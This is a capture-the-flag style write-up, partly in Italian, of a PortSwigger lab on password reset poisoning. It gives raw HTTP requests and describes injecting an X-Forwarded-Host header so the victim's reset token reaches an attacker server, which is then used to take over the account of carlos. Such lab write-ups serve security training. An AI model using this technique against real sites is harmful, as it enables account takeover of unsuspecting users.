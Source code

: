 
https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware

*The user `carlos` will carelessly click on any links in emails that he receives*

Questo ci fa capire che dobbiamo generare un'email indirizzata a `carlos`, e l'utente cliccherà automaticamente sul link.

Il fulcro di questo LAB è che la webapp è vulnerabile all'aggiunta di un header arbitrario: ``X-Forwarded-Host`

**E' tramite questo header che verrà costruito il link nel body dell'email inviata all'utente.**

Quindi, tutto ciò che dobbiamo fare è:

- triggerare la generazione di un token per il reset password di `carlos`
- inserire nella richiesta di cui sopra un header che rimandi al NOSTRO webserver malicious
- prendere il token per il reset password di `carlos`
- resettare la password di `carlos` ed accedere col suo user

## happy case

reset password for `wiener`

![](_attachment/Pasted%20image%2020250301125507.png)

![](_attachment/Pasted%20image%2020250301125517.png)

![](_attachment/Pasted%20image%2020250301125530.png)

![](_attachment/Pasted%20image%2020250301125543.png)

![](_attachment/Pasted%20image%2020250301125550.png)

```
Sent:     2025-03-01 11:55:19 +0000
From:     "No reply" <no-reply@0ada008d038e6ea881339dcf00f2002e.web-security-academy.net>
To:       wiener@exploit-0aec001703da6e7e81859c3601680027.exploit-server.net
Subject:  Account recovery

Hello!

Please follow the link below to reset your password.

https://0ada008d038e6ea881339dcf00f2002e.web-security-academy.net/forgot-password?temp-forgot-password-token=aele3bkdp5pl2fmeyufnuldnd0k2c9rt

Thanks,
Support team
```

click on link

https://0ada008d038e6ea881339dcf00f2002e.web-security-academy.net/forgot-password?temp-forgot-password-token=aele3bkdp5pl2fmeyufnuldnd0k2c9rt

![](_attachment/Pasted%20image%2020250301125626.png)

request to change wiener's password to `password`

```
POST /forgot-password?temp-forgot-password-token=aele3bkdp5pl2fmeyufnuldnd0k2c9rt HTTP/2
Host: 0ada008d038e6ea881339dcf00f2002e.web-security-academy.net
Cookie: session=ESOE0TijGj6LXtQIZIg7hFprd4vODGjz
Content-Length: 107
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Origin: https://0ada008d038e6ea881339dcf00f2002e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ada008d038e6ea881339dcf00f2002e.web-security-academy.net/forgot-password?temp-forgot-password-token=aele3bkdp5pl2fmeyufnuldnd0k2c9rt
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

temp-forgot-password-token=aele3bkdp5pl2fmeyufnuldnd0k2c9rt&new-password-1=password&new-password-2=password
```

After, we can actually login with `wiener:password`:

![](_attachment/Pasted%20image%2020250301125737.png)

## forge host header

legit request:

```
POST /forgot-password HTTP/2
Host: 0ada008d038e6ea881339dcf00f2002e.web-security-academy.net
Cookie: session=ESOE0TijGj6LXtQIZIg7hFprd4vODGjz
Content-Length: 15
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Origin: https://0ada008d038e6ea881339dcf00f2002e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ada008d038e6ea881339dcf00f2002e.web-security-academy.net/forgot-password
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

username=wiener
```

let's change `username` to `carlos` in the body post request, and add our malicious `X-Forwarder-Host` header:

![](_attachment/Pasted%20image%2020250301130011.png)

we got a positive response:

![](_attachment/Pasted%20image%2020250301130026.png)

let's change our access logs:

![](_attachment/Pasted%20image%2020250301130111.png)

we got a token!

```
10.0.3.110      2025-03-01 12:00:14 +0000 "GET /forgot-password?temp-forgot-password-token=g6y1ynxqsnzpavc7skkmhj77396o07sl HTTP/1.1" 404 "user-agent: Chrome/476116"
```

now we can simply go to the legit URL (we can pick it from our previous email) and simply changing the token:

https://0ada008d038e6ea881339dcf00f2002e.web-security-academy.net/forgot-password?temp-forgot-password-token=g6y1ynxqsnzpavc7skkmhj77396o07sl


After, we can set a new password for `carlos` and get access to his profile:



![](_attachment/Pasted%20image%2020250301130858.png)

